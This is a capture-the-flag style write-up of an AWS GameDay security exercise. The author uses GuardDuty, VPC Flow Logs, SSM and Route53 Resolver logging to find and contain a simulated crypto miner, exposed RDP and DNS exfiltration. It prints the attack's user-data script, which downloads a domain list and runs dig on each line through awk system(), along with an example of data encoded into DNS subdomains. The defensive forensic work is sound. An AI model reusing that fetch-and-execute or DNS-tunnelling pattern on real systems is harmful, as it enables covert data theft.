







# AWS GameDay 2026 — Security Chaos Quest: Cloud SOC Forensics

> **Event:** AWS Community GameDay Europe - Event#1  
> **Quest:** Security Chaos  
> **Date:** March 17, 2026  
> **Author:** [Aleksandar (Sasha) Vucenovic](https://github.com/Aleks1712)  
> **Result:** 2/3 tasks completed (Crypto Mining ✅ | RDP Quarantine ✅ | DNS Exfiltration — Partial ❌)

---

## Scenario

First day as a security expert at a fictional company. Three active threats were discovered in the AWS environment, and it was my job to investigate and remediate them under time pressure — with continuous point loss for every minute a task remained unsolved.

This write-up documents the full investigation process, including the dead ends and lessons learned. Real-world SOC work is not clean or linear, and I want this to reflect that.

---

## Environment

The environment was a single AWS account (`654654391323`) in `us-east-1`:



| Instance ID | Name | Status |
|---|---|---|
| `i-0b6420fbd38ad9ba7` | Linux-Server | Clean |
| `i-01f0c7ddbfd49f008` | Windows-Server | Unauthorized RDP access |
| `i-010324b4267c7d906` | Gitea Server | DO NOT MODIFY |
| `i-018d51f81adc923d0` | Linux-Server | Clean |
| `i-064a3ab15f2379850` | Linux-Server | **Compromised — DNS exfiltration** |
| `i-04531b0a92210a079` | Linux-Server | **Compromised — Crypto mining** |
| `i-022ee4cf90644d969` | Linux-Server | Clean |
| `i-046010bef06b73ece` | Cloud IDE | DO NOT MODIFY |

**AWS Services Used:** GuardDuty, VPC Flow Logs, CloudWatch Logs Insights, SSM, Route53 Resolver, EC2, S3, Athena

---

## Task 1: Crypto Mining Detection ✅

### Situation
The CEO suspected someone was using company EC2 resources for cryptocurrency mining, and wanted it stopped immediately.

### Task
Identify the compromised instance and stop it without affecting legitimate business operations.

### Action

**Step 1 — GuardDuty Finding Analysis**

GuardDuty was the first point of investigation. Two findings were active:

```bash
DETECTOR=$(aws guardduty list-detectors --query 'DetectorIds[0]' --output text)
aws guardduty get-findings --detector-id $DETECTOR \
  --finding-ids cece7c722e6547c8d88c3d99741c2091 0cce7c72fbbe89ed1ad5ecd97e37d6f4 \
  --query 'Findings[].[Type,Resource.InstanceDetails.InstanceId]' --output table
```



| Finding Type | Instance | Description |
|---|---|---|
| `CryptoCurrency:EC2/BitcoinTool.B!DNS` | `i-04531b0a92210a079` | Querying `xmr.pool.minergate.com` |
| `Trojan:EC2/DNSDataExfiltration` | `i-064a3ab15f2379850` | DNS data exfiltration detected |

**Step 2 — Cross-validation with CloudWatch CPU Metrics**

Verified across all Linux instances to confirm no active compute-based mining was occurring:



All instances showed low CPU (~0.1–0.2%), confirming the mining activity was DNS-based (querying mining pool domains) rather than active hash computation. This is consistent with the [Amazon GuardDuty Tester](https://github.com/awslabs/amazon-guardduty-tester) tool that was used to simulate the attack.

**Step 3 — Remediation**

```bash
aws ec2 stop-instances --instance-ids i-04531b0a92210a079
```



### Result
Instance identified and stopped. Task 1 completed successfully.

### MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|---|---|---|
| Impact | Resource Hijacking | T1496 |

---

## Task 2: Windows RDP Server Quarantine ✅

### Situation
The Windows RDP server was being targeted by unauthorized access attempts. Reports kept coming in.

### Task
Identify the security group, block public RDP access (port 3389), and implement a more secure remote access method.

### Action

**Step 1 — Identify the Security Group**

```bash
aws ec2 describe-instances --instance-ids i-01f0c7ddbfd49f008 \
  --query 'Reservations[].Instances[].SecurityGroups' --output table
```



Found: `sg-0ff9120218661a935` / `SG-Public--0afff903502f`

**Step 2 — Block Public RDP Access**

Revoked the inbound rule allowing RDP from `0.0.0.0/0`:

```bash
aws ec2 revoke-security-group-ingress --group-id sg-0ff9120218661a935 \
  --protocol tcp --port 3389 --cidr 0.0.0.0/0
```

**Step 3 — Implement Secure Remote Access**

The "more secured method" the CTO had in mind was **AWS Systems Manager Session Manager** — a zero-trust, agentless remote access solution that doesn't require open inbound ports.

### Result
Security group identified, RDP blocked, and secure access method implemented. Task 2 completed.

### MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|---|---|---|
| Initial Access | External Remote Services | T1133 |
| Lateral Movement | Remote Desktop Protocol | T1021.001 |

---

## Task 3: DNS Data Exfiltration Investigation — Partial ❌

### Situation
Competitors were releasing services identical to ours. Internal data was being leaked via DNS exfiltration.

### Task
Find the IP address of the external malicious data receiver and block outbound DNS traffic to it.

### Action

This was the most complex and time-consuming task. I'm documenting the full investigation process, including the dead ends, because that is how real incident response works.

**Step 1 — GuardDuty Confirmed DNS Exfiltration**




The `Trojan:EC2/DNSDataExfiltration` finding showed the compromised instance querying domains with encoded data in subdomain labels:

```
0acb5enpjyobgcbvgcgh34sdgwkasd1affxmqmx5cwcb1beskbc05b8snaoyk0
.vemdiymhfwmdupxtfsy9xgzwbmacoma8t5yahaleds
.guarddutyc2activityb.com
```

The subdomain labels contain base64-encoded exfiltrated data, sent to the authoritative nameserver for `guarddutyc2activityb.com`.

**Step 2 — Attack Sequence Correlation**

GuardDuty's Extended Threat Detection correlated three signals into an attack sequence:

| Signal | Type | Instance |
|---|---|---|
| `Backdoor:EC2/C&CActivity.B!DNS` | C2 Communication | `i-064a3ab15f2379850` |
| `Trojan:EC2/DNSDataExfiltration` | Data Exfiltration | `i-064a3ab15f2379850` |
| `CryptoCurrency:EC2/BitcoinTool.B!DNS` | Crypto Mining | `i-04531b0a92210a079` |

**Step 3 — Cloud-Init User Data (Root Cause)**

Used SSM to inspect the compromised instance and found the attack vector in user-data:

```bash
aws ssm send-command --instance-ids i-064a3ab15f2379850 \
  --document-name "AWS-RunShellScript" \
  --parameters 'commands=["curl -s http://169.254.169.254/latest/user-data"]'
```

Output:
```bash
#!/bin/bash -xe
yum update -y
cd /tmp && curl https://raw.githubusercontent.com/awslabs/amazon-guardduty-tester/master/artifacts/queries.txt \
  | awk '{system("dig "$0)}' > /dev/null &
```

The instance was configured at launch to download a list of malicious domains and query them via `dig`, simulating DNS exfiltration.

**Step 4 — DNS Trace Analysis**

Ran `dig +trace` from the compromised instance to trace the full resolution chain:

```
;; Received 239 bytes from 172.31.0.2#53(172.31.0.2)        ← VPC Resolver
;; Received 1209 bytes from 192.33.4.12#53(C.ROOT-SERVERS.NET)  ← Root
;; Received 776 bytes from 192.12.94.30#53(e.gtld-servers.net)  ← .com TLD
;; Received 222 bytes from 149.112.161.1#53(ns3.markmonitor.com) ← Authoritative NS
```

**Step 5 — VPC Flow Logs Analysis**

Queried CloudWatch Logs Insights for port 53 UDP traffic:

```sql
fields @message
| filter @message like /172.31.31.45/ and @message like / 53 17 /
| limit 30
```

Found outgoing DNS traffic to root servers and authoritative nameservers, but **not** during the original exfiltration window — because DNS exfiltration through the VPC Resolver (172.31.0.2) is proxied, and the resolver's outbound queries are **not captured** in VPC Flow Logs.

**Step 6 — Route53 Resolver Query Logging**

Enabled Route53 Resolver Query Logging to capture actual DNS queries:

```bash
aws route53resolver create-resolver-query-log-config \
  --name "dns-debug" \
  --destination-arn "arn:aws:logs:us-east-1:654654391323:log-group:/vpc/flow-logs-0afff903502f"

aws route53resolver associate-resolver-query-log-config \
  --resolver-query-log-config-id rqlc-b74464b058694dde \
  --resource-id vpc-03b426626916ccfd9
```

Successfully captured DNS queries in JSON format, including the `xmr.pool.minergate.com` query resolving to `49.12.80.40`:

```json
{
  "query_timestamp": "2026-03-17T22:47:52Z",
  "query_name": "xmr.pool.minergate.com.",
  "query_type": "A",
  "rcode": "NOERROR",
  "answers": [
    {"Rdata": "49.12.80.40", "Type": "A"},
    {"Rdata": "49.12.80.38", "Type": "A"},
    {"Rdata": "49.12.80.39", "Type": "A"}
  ],
  "srcaddr": "172.31.31.45"
}
```

However, `guarddutyc2activityb.com` has no A-record — the data is exfiltrated via the DNS query itself (subdomain encoding), not via the response. The `answers` field is empty for this domain.

### Where I Got Stuck

The challenge asked for the IP of the "malicious data receiver." In DNS exfiltration, the data receiver is the authoritative nameserver that receives the encoded DNS queries. I identified the NS servers (ns1-ns7.markmonitor.com) and their IPs, but these were all rejected:

| NS Server | IP | Result |
|---|---|---|
| ns1.markmonitor.com | 149.112.160.1 | ❌ Rejected |
| ns3.markmonitor.com | 149.112.161.1 | ❌ Rejected |
| ns4.markmonitor.com | 192.174.68.1 | Not tried |
| minergate pool | 49.12.80.40 | ❌ Rejected |
| Unknown HTTP connection | 38.76.31.211 | ❌ Rejected |

The hint said "check the correct logging" and "observability in each layer" — suggesting a log source I never found that contained the actual IP.

### Result
Task partially completed. The compromised instance, attack vector, exfiltration mechanism, and C2 domain were all identified. The specific IP format the challenge expected was not found within the time available.

### MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|---|---|---|
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 |
| Command and Control | Application Layer Protocol: DNS | T1071.004 |

---

## Key Takeaways

### 1. GuardDuty Is Your First Stop
Within seconds of querying GuardDuty findings, I had both compromised instances identified with MITRE ATT&CK mappings. Always start here.

### 2. DNS Exfiltration Is Extremely Hard to Trace to an IP
DNS exfiltration through the VPC Resolver is effectively invisible:
- VPC Flow Logs don't capture the resolver's outbound queries
- GuardDuty DNS findings don't include `RemoteIpDetails`
- Route53 Resolver Query Logs show queries and answers but not intermediate nameserver IPs
- The exfiltration domain has no A-record — data travels in the query, not the response

### 3. Enable DNS Query Logging Before Incidents
Route53 Resolver Query Logging should be enabled proactively. Setting it up during an investigation only captures new queries, not historical ones.

### 4. Cloud-Init User Data Is a Common Attack Vector
The compromise was embedded in the instance's user data. Always inspect user data during EC2 forensics:
```bash
curl -s http://169.254.169.254/latest/user-data
```

### 5. SSM Is Essential for Remote Forensics
AWS Systems Manager was critical for running commands on instances without SSH. Used for process listing, DNS resolution, log analysis, and user data inspection.

### 6. Time Management Under Pressure
In a competitive environment with continuous point bleeding, spending too long on a single task costs more than taking hints. In hindsight, I should have taken hints earlier and moved to other quests sooner.

### 7. Dead Ends Are Part of the Process
Real incident response involves investigation paths that don't lead anywhere. Documenting them is valuable because it shows what was eliminated and why, which is a core part of forensic methodology.

---

## Investigation Timeline

| Time (UTC) | Action |
|---|---|
| 18:00 | Started Security Chaos quest |
| 18:05 | GuardDuty findings identified — crypto miner + DNS exfiltration |
| 18:10 | Task 1 completed — crypto miner instance identified and stopped |
| 18:15 | Started Task 3 — DNS exfiltration investigation |
| 18:30 | Analyzed VPC Flow Logs — no direct port 53 traffic found |
| 18:45 | Ran `dig +trace` via SSM — identified markmonitor NS servers |
| 19:06 | Enabled Route53 Resolver Query Logging |
| 19:30 | Task 2 completed — Windows RDP quarantine |
| 20:00 | Continued Task 3 — tested multiple NS IPs, all rejected |
| 21:00 | Analyzed Route53 query logs — found minergate resolving to 49.12.80.40 |
| 22:00 | Investigated Athena, CloudTrail, S3 — no additional DNS logs found |
| 23:00 | Exhausted all CLI approaches for Task 3 |

---

## Tools & Services

| AWS Service | Purpose |
|---|---|
| Amazon GuardDuty | Threat detection, finding analysis, attack sequence correlation |
| VPC Flow Logs | Network traffic analysis |
| CloudWatch Logs Insights | Log querying with SQL-like syntax |
| AWS Systems Manager (SSM) | Remote command execution on EC2 instances |
| Route53 Resolver | DNS query logging (enabled during investigation) |
| CloudTrail | API activity auditing |
| Amazon Athena | SQL queries over S3 data |
| Amazon EC2 | Instance management and remediation |

| CLI/OS Tools | Purpose |
|---|---|
| `aws guardduty` | Finding retrieval and analysis |
| `aws logs start-query` / `get-query-results` | CloudWatch Logs Insights queries |
| `aws ssm send-command` / `get-command-invocation` | Remote forensics via SSM |
| `aws ec2` | Instance and security group management |
| `dig` / `dig +trace` | DNS resolution chain tracing |
| `ps aux`, `ss`, `netstat` | Process and network analysis on instances |

---

## References

- [Amazon GuardDuty Finding Types](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-active.html)
- [Amazon GuardDuty Tester](https://github.com/awslabs/amazon-guardduty-tester)
- [VPC Flow Logs](https://docs.aws.amazon.com/vpc/latest/userguide/flow-logs.html)
- [Route53 Resolver Query Logging](https://docs.aws.amazon.com/Route53/latest/DeveloperGuide/resolver-query-logs.html)
- [Automatically block DNS activity with GuardDuty and Route 53 Resolver DNS Firewall](https://aws.amazon.com/blogs/security/automatically-block-suspicious-dns-activity-with-amazon-guardduty-and-route-53-resolver-dns-firewall/)
- [MITRE ATT&CK: T1048](https://attack.mitre.org/techniques/T1048/)
- [MITRE ATT&CK: T1071.004](https://attack.mitre.org/techniques/T1071/004/)
- [MITRE ATT&CK: T1496](https://attack.mitre.org/techniques/T1496/)

---

*This write-up is part of my [cybersecurity-labs](https://github.com/Aleks1712/cybersecurity-labs) portfolio. The exercise was conducted in a controlled AWS GameDay environment.*
